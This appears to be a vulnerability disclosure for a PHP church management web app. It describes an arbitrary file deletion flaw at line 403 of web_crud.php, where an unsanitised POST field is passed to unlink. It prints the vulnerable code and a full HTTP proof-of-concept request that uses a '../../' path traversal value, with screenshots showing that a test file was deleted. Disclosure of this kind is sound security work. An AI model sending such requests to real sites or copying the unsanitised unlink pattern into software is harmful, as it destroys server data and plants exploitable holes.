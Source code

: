 ### Vulnerability file address

In line 403 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_service_img']);`,` $_POST['old_service_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['servicephoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["servicephoto"]["name"]);

            if (move_uploaded_file($_FILES["servicephoto"]["tmp_name"], $filepath)) {
                $img4 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['old_service_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 381

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_service_img"

../../15.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="servicephoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `15.txt` file in the `church/` directory

![image-20250505160926931](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051609973.png)

Then we execute the above poc to attack

![image-20250505162617354](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051626389.png)

Files are deleted after the attack is successful

![image-20250505162630280](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051626310.png)